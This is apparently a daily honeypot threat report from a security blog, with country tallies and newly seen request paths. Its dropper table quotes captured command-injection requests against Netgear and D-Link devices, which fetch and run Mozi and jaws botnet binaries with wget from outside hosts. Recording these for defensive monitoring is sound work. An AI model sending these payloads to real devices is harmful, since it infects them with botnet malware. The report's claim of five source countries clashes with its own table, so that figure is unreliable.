 ```yaml
---
title: "Report: 2025-04-28 "
date: 2025-04-28
desciption: "Report: 2025-04-28" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-28 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 27 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2097 requests were recorded during the day, originating from 5 different countries, with a peak of 455 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.42.243.86  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                       |
| 123.4.49.93    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.4.49.93:44339/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0  |
| 59.96.140.75   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.96.140.75:33894/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 90.189.112.148 | GET /shell?cd+/tmp;rm+-rf+*;wget+31.58.51.98/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                     |
| 103.48.64.122  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                       |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
| 232 |                     1 | GET /README.md HTTP/1.1                                    |
| 238 |                     1 | GET /6Rmh HTTP/1.1                                         |
| 239 |                     1 | GET /Fx6h HTTP/1.1                                         |
| 256 |                     1 | GET /Odin/http/call1745828103 HTTP/1.1                     |
| 263 |                     1 | GET /Q2qh HTTP/1.1                                         |
| 265 |                     1 | GET /n3nN HTTP/1.1                                         |
| 271 |                     1 | GET /odinhttpcall1745828103 HTTP/1.1                       |
| 272 |                     1 | GET /OdinHttpCall1745828103 HTTP/1.1                       |
| 277 |                     1 | GET /rC5r HTTP/1.1                                         |
| 278 |                     1 | GET /Ns9c HTTP/1.1                                         |
| 293 |                     1 | GET /tmp.php HTTP/1.1                                      |
| 312 |                     1 | \x04\x01\x01\xBB@\xE9\xA1iadm:12345\x00                    |
| 318 |                     1 | GET /config/index?time=1745844135156373232 HTTP/1.1        |
| 332 |                     1 | POST /api/user/binLookup?time=1745848300884437028 HTTP/1.1 |
| 335 |                     1 | GET /api/bin/440393?time=1745848300387524762 HTTP/1.1      |
| 342 |                     1 | \x04\x01\x01\xBB@\xE9\xA1i\x00                             |
| 351 |                     1 | GET /odinhttpcall1745867188 HTTP/1.1                       |
| 352 |                     1 | GET /odinhttpcall1745867310 HTTP/1.1                       |
| 353 |                     1 | GET /OdinHttpCall1745867310 HTTP/1.1                       |
| 354 |                     1 | GET /Odin/http/call1745867310 HTTP/1.1                     |
| 358 |                     1 | GET /OdinHttpCall1745867188 HTTP/1.1                       |
| 359 |                     1 | GET /Odin/http/call1745867188 HTTP/1.1                     |
| 368 |                     1 | GET /HaRa HTTP/1.1                                         |
| 369 |                     1 | GET /eTo5 HTTP/1.1                                         |
| 390 |                     1 | GET /jasperserverTest/login.html HTTP/1.1                  |
| 400 |                     1 | GET /config/index?time=1745841660963416564 HTTP/1.1        |
| 401 |                     1 | POST /api/user/binLookup?time=1745844547990456700 HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   455 | US                 |
|  1 |                   314 | GB                 |
|  2 |                   262 | DE                 |
|  3 |                   262 | NL                 |
|  4 |                   172 | SC                 |
|  5 |                   105 | VN                 |
|  6 |                    92 | PL                 |
|  7 |                    66 | BG                 |
|  8 |                    60 | HK                 |
|  9 |                    45 | CN                 |
| 10 |                    45 | KZ                 |
| 11 |                    41 | IN                 |
| 12 |                    35 | UA                 |
| 13 |                    18 | ZA                 |
| 14 |                    18 | GH                 |
| 15 |                    10 | FR                 |
| 16 |                    10 | CH                 |
| 17 |                     8 | JP                 |
| 18 |                     7 | KR                 |
| 19 |                     6 | PT                 |
| 20 |                     6 | LT                 |
| 21 |                     6 | AU                 |
| 22 |                     6 | CA                 |
| 23 |                     6 | AO                 |
| 24 |                     5 | RU                 |
| 25 |                     5 | SG                 |
| 26 |                     5 | TR                 |
| 27 |                     4 | BE                 |
| 28 |                     3 | ID                 |
| 29 |                     3 | RO                 |
| 30 |                     2 | TH                 |
| 31 |                     2 | MC                 |
| 32 |                     2 | BR                 |
| 33 |                     2 | PH                 |
| 34 |                     2 | FI                 |
| 35 |                     2 | ES                 |
| 36 |                     1 | KE                 |
| 37 |                     1 | IR                 |
| 38 |                     1 | IT                 |
| 39 |                     1 | NZ                 |
| 40 |                     1 | AR                 |
